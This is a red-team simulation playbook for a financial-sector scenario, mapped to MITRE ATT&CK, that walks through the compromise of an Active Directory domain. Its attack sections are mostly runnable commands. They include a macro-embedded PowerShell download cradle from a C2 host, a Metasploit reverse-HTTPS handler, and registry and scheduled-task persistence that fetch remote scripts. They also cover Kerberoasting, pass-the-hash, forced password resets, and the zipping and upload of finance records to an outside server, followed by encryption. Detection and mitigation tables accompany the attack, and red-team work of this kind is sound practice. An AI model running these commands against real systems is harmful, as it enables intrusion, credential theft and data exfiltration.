

# Red Team Simulation Playbook — Financial Sector Scenario


---

## Table of Contents
- [ Business Objective](#1-business-objective-simulated-impact)
- [ Initial Access](#2-initial-access--targeted-phishing)
- [ Execution & Persistence](#3-execution--persistence)
- [ Lateral Movement & Collection](#4-lateral-movement--collection)
- [ Exfiltration / Impact](#5-exfiltration--impact)
- [ Detection, Containment & Mitigation](#6-detection-containment--mitigation)
- [ MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [ Compensating Controls](#8-compensating-controls)
- [ Conclusion](#9-conclusion)
- [ External References](#10-external-references)
- [ MITRE Attack Chain Diagram](#-mitre-attck-attack-chain-diagram)

---

## 1. Business Objective (Simulated Impact)
- Test resilience against **Active Directory compromise**.  
- Evaluate detection and response capabilities for **ransomware + data exfiltration**.  
- Simulated business impact:
    - Downtime for online banking and payment processing.
    - Data breach involving financial transactions and PII.
    - Regulatory penalties (GLBA, SOX, GDPR) and reputational damage.

---

## Attack Flow (Mermaid Diagram)


---

## 2. Initial Access – **Targeted Phishing**
Vector: spear-phishing email with malicious attachment or fake login page.  
Example commands:
```bash
macro_pack.exe --template=word --payload="powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')" --obfuscate

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.10.5
set LPORT 443
run
```

**MITRE ATT&CK:** T1566.001 (Phishing Attachment), T1059 (PowerShell).

---

## 3. Execution & Persistence
In-memory execution and persistence via registry and scheduled tasks:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveUpdate /t REG_SZ /d "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/loader.ps1')" /f

schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/update.ps1')" /sc minute /mo 30
```

**MITRE ATT&CK:** T1547.001 (Registry), T1053.005 (Scheduled Task).

---

## 4. Lateral Movement & Collection
Enumeration and exploitation:
```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | select Name, ServicePrincipalName
net group "Domain Admins" /domain

Invoke-Kerberoast
GetUserSPNs.py finbank.local/user:password -dc-ip 10.10.10.10 -request

crackmapexec smb 10.10.10.10 -u admin -H <NTLMHASH>
rpcclient -U user%pass 10.10.10.10
setuserinfo2 targetuser 23 "NewPassword123!"
```

**MITRE:** T1087.002 (Account Discovery), T1558.003 (Kerberoasting), T1021.001 (SMB).

---

## 5. Exfiltration / Impact
Compress and exfiltrate data:
```powershell
Compress-Archive -Path C:\finance\records\* -DestinationPath C:\Users\Public\report.zip
Invoke-WebRequest -Uri "https://secure-storage.com/upload" -Method POST -InFile "C:\Users\Public\report.zip"
cipher /e C:\finance\records
```

**MITRE:** T1041 (Exfil over C2), T1486 (Data Encrypted for Impact).

---

## 6. Detection, Containment & Mitigation
| Phase            | Detection                                      | Mitigation                                      |
|-----------------|-----------------------------------------------|-----------------------------------------------|
| Initial Access  | EDR alerts, sandbox                           | MFA, disable macros, phishing simulations     |
| Execution       | PowerShell logs (4104), AMSI                 | AppLocker, WDAC                               |
| Lateral Move    | Event IDs 4624, 4768, LDAP anomalies         | ACL hardening, AES-only, query monitoring    |
| Exfiltration    | DLP, proxy analysis                          | TLS inspection, block unknown uploads        |

---

## 7. MITRE ATT&CK Mapping
| Tactic                | Techniques                                      |
|-----------------------|-----------------------------------------------|
| Initial Access        | T1566.001 (Phishing)                         |
| Execution             | T1059 (PowerShell)                           |
| Persistence           | T1547.001 (Registry), T1053.005 (Tasks)      |
| Privilege Escalation  | T1558.003 (Kerberoasting), ACL Abuse         |
| Lateral Movement      | T1021.001 (SMB/WinRM), Pass-the-Hash         |
| Collection            | T1087.002 (AD Enumeration)                   |
| Exfiltration          | T1041 (Exfiltration over C2)                 |
| Impact                | T1486 (Data Encrypted for Impact)            |

---

## 8. Compensating Controls
- Advanced phishing protection (SPF/DKIM/DMARC, sandboxing).
- Active Directory hardening: AES-only, tiered admin model, Protected Users.
- Network segmentation to limit lateral movement; SMB hardening.
- SIEM correlation for MITRE TTPs and honey accounts for detection.

---

## 9. Conclusion
This simulation shows how a targeted attack can **compromise Active Directory, steal sensitive financial data, and disrupt critical operations**.  
**Corporate risks identified:**
- Direct financial loss due to outages and fraud.
- Data breaches impacting compliance (GLBA, SOX) and brand trust.
- Persistent access leading to costly remediation and downtime.

**Key takeaway:** Continuous **offensive security testing combined with real-time detection and response** is essential to reduce exposure.

---

## 10. External References
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Securing Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [CIS Critical Security Controls v8](https://www.cisecurity.org/controls/cis-controls-list)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Red Team OPSEC Guide](https://redteam.guide/)
- [SANS Incident Response Resources](https://www.sans.org/incident-response/)

---

##  MITRE ATT&CK Attack Chain Diagram

```mermaid
graph LR
    A[Initial Access] --> B[Execution]
    B --> C[Persistence]
    C --> D[Privilege Escalation]
    D --> E[Lateral Movement]
    E --> F[Collection]
    F --> G[Exfiltration]
    G --> H[Impact]

    A -->|T1566.001| B
    B -->|T1059| C
    C -->|T1547.001 / T1053.005| D
    D -->|T1558.003| E
    E -->|T1021.001| F
    F -->|T1087.002| G
    G -->|T1041| H
    H -->|T1486| H
```

